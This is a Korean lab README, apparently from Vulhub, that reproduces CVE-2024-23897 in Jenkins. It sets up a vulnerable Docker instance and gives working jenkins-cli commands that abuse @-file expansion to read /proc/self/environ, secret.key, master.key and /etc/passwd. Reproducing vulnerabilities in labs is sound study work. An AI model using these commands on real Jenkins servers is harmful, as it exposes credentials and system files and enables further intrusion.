 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.

참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080/` 을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는 `admin`과 `vulhub` 입니다.

## 취약점 공격(익스플로잇)

먼저 `http://localhost:8080/jnlpJars/jenkins-cli.jar` 을 통해 명령줄 클라이언트 `jenkins-cli.jar` 를 다운로드해야 합니다.

`/proc/self/environ` 파일을 읽어 Jenkins 기본 디렉터리인 `JENKINS_HOME=/var/jenkins_home` 을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![image](https://github.com/user-attachments/assets/ea1f7ea9-9280-4cec-ade5-df307a896c83)

이 명령을 사용하면 `secrets.key` 또는 `master.key` 와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![image](https://github.com/user-attachments/assets/680bb4bd-bfee-49dc-ae29-ba9ca91e04c9)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![image](https://github.com/user-attachments/assets/c7c5c11a-46bf-468b-9679-49087b7cfed3)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![image](https://github.com/user-attachments/assets/55c06b24-6dd9-4330-9f6e-005dc597a494)
